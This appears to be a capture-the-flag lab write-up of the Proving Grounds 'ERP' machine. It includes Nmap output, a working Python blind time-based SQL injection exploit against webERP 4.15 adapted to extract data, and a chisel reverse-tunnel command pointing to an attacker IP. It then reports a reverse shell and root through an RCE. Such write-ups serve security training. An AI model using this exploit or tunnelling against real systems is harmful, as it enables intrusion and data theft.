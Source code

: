 #### Enumeration

Performing network service reconnaissance using Nmap.

```shell
└─$ sudo nmap --min-rate 1000 -p- -Pn 192.168.175.227 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 10:21 CST
Nmap scan report for 192.168.175.227
Host is up (0.29s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62361a5cd3e37be170f8a3b31c4c2438 (RSA)
|   256 ee25fc236605c0c1ec47c6bb00c74f53 (ECDSA)
|_  256 835c51ac32e53a217cf6c2cd936858d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: TsukorERP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Trying to log in using common credentials and SQL injection, but unable to gain access.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230303_224723_001.png)

Continuing our search of the web directory, we find a robots.txt file that provides an additional link to `/weberp/index.php`.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_131417_002.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_131539_003.png)

We are able to log in successfully using the credentials we found on Google.

```
admin///weberp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_133108_004.png)

Note that logging into this ERP system may be a bit slow.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_133245_005.png)

Once we log in, we can verify that the system version is 4.15 and identify a related vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_134134_006.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_134251_007.png)

We test the vulnerability and confirm that the PoC codes works properly. Note that both the `path` and `order` parameters must be entered correctly. It took me a lot of time to test.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_134726_008_.png)

Although this PoC codes is only for blind SQL injection testing, we can modify it to retrieve the data, just like in sqlmap. I refer to other SQL injection testing codes and modify our PoC codes accordingly. The results are as follows:

```python
# Exploit Title: Blind SQL injection in WebERP.
# Date: June 10, 2019
# Exploit Author: Semen Alexandrovich Lyhin (https://www.linkedin.com/in/semenlyhin/)
# Vendor Homepage: http://www.weberp.org/
# Version: 4.15

# A malicious query can be sent in base64 encoding to unserialize() function. It can be deserialized as an array without any sanitization then. 
# After it, each element of the array is passed directly to the SQL query. 

import requests
import base64
import os
import subprocess
from bs4 import BeautifulSoup
import re
import time
import sys

def generatePayload(PaidAmount="0",PaymentId="0"):
    #THIS FUNCTION IS INSECURE BY DESIGN
    ToSerialize = r"[\"%s\" => \"%s\"]" % (PaymentId, PaidAmount)
    return os.popen("php -r \"echo base64_encode(serialize(" + ToSerialize + "));\"").read()

def getCookies(ip, CompanyNameField, usr, pwd):
    r = requests.get("http://" + ip + "/index.php")
    s = BeautifulSoup(r.text, 'lxml')
    m = re.search("FormID.*>", r.text)
    FormID = m.group(0).split("\"")[2]
    
    data = {"FormID":FormID,"CompanyNameField":CompanyNameField,"UserNameEntryField":usr,"Password":pwd,"SubmitUser":"Login"}
    r = requests.post("http://" + ip + "/index.php", data)
    
    return {"PHPSESSIDwebERPteam":r.headers["Set-Cookie"][20:46]}
    

def addSupplierID(name, cookies, proxies):
    r = requests.get("http://" + ip + "/Suppliers.php", cookies=cookies)
    s = BeautifulSoup(r.text, 'lxml')
    m = re.search("FormID.*>", r.text)
    FormID = m.group(0).split("\"")[2]
    
    data = {"FormID":FormID,"New":"Yes","SupplierID":name,"SuppName":name,"SupplierType":"1","SupplierSince":"01/06/2019","BankPartics":"","BankRef":"0",
            "PaymentTerms":"20","FactorID":"0","TaxRef":"","CurrCode":"USD","Remittance":"0","TaxGroup":"1","submit":"Insert+New+Supplier"}
            
    requests.post("http://" + ip + "/Suppliers.php", data=data,cookies=cookies,proxies=proxies)


def runExploit(cookies, supplier_id, payload, proxies):
    r = requests.get("http://" + ip + "/Payments.php", cookies=cookies)
    s = BeautifulSoup(r.text, 'lxml')
    m = re.search("FormID.*>", r.text)
    FormID = m.group(0).split("\"")[2]
    
    data = {"FormID":FormID,
            "CommitBatch":"2",
            "BankAccount":"1",
            "DatePaid":"01/06/2019",
            "PaidArray":payload}
         
    requests.post("http://" + ip + "/Payments.php?identifier=1559385755&SupplierID=" + supplier_id, data=data,cookies=cookies,proxies=proxies)


if __name__ == "__main__":
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()
    
    ip = sys.argv[1] + "/" + sys.argv[2]
    
    #if don't have php, set Payload to the next one to check this time-based SQLi: YToxOntpOjA7czoyMzoiMCB3aGVyZSBzbGVlcCgxKT0xOy0tIC0iO30=
    #payload = generatePayload("0 where 1=IF((SELECT count(*) FROM information_schema.schemata)='3', SLEEP(5), 0);-- -", "0")
    
    #payload = generatePayload("0", "' or sleep(5) and '1'='1")
    #payload = generatePayload("0", "' or 1=IF((SELECT count(*) FROM information_schema.schemata)='3', SLEEP(5), 0) and '1'='1")
    for i in range(1, 50):
            
        dictionary = " ,abcdefghijklmnopqrstuvwxyz0123456789_"

        for j in range(0, len(dictionary)):        
            # get databases    
            payload = generatePayload("0", "-12' or sleep(IF((SELECT substring(group_concat(schema_name),%s,1) FROM information_schema.schemata" \
                                      " WHERE schema_name NOT IN ('information_schema','mysql','performance_schema')) = '%s', 5, 0)) and '1'='1" % (i, dictionary[j]))
            
            #get cookies
            cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
            
            addSupplierID("GARUMPAGE", cookies, proxies)
            
            t1 = time.time()
            runExploit(cookies, "GARUMPAGE", payload, proxies)
            t2 = time.time()
            
            if (t2-t1>4) and j == 0:
                print "Finish"
                sys.exit()
            elif (t2-t1>4) and j == 1:
                print "\n"
            elif (t2-t1>4):
                print dictionary[j]
                break
            #else:
                #print "Verify input data and try again"
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151210_009.png)

As you can see, we have found another database named `inoerp_db`. Although we could try to modify the code to continue retrieving tables and more information, but it would take a lot of time. So, let's try googling the database name and see what we can find.

Now that we know it is another ERP system, perhaps it has been installed on our target host and has vulnerabilities?

```
http://192.168.188.227/inoerp/
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151221_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151425_011.png)

Although the vulnerability version is not applicable, we can still attempt to use it and see what happens.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151641_012.png)

We have obtained a reverse shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_152542_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_152612_014.png)

#### Privilege Escalation

We have found an active port 8443 that was not visible during the initial nmap scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_153429_015.png)

Use `chisel` to forward the service.

Use port 80 on our host to listen to the forwarding.

```shell
./chisel server -p 80 --reverse -v
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_160123_016.png)

Execute the following command on the target host.

```shell
# ./chisel client <attacker ip>:<attacker port> R:<attacker service port>:localhost:<target service port>
./chisel client 192.168.45.5:80 R:5678:localhost:8443
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_160224_017.png)

The service has been successfully forwarded.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_160310_018.png)

Confirmed that an HTTP service is running on port 8443 on the target host via nmap scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_161138_019.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_162058_020.png)

This service has an unauthenticated RCE vulnerability and is running with root privilege.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_162551_021.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_164006_022.png)

Since port 80 is already being used for listening and forwarding, we will choose another active port from the list for reverse shell listening.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_164210_023.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_164236_024.png)

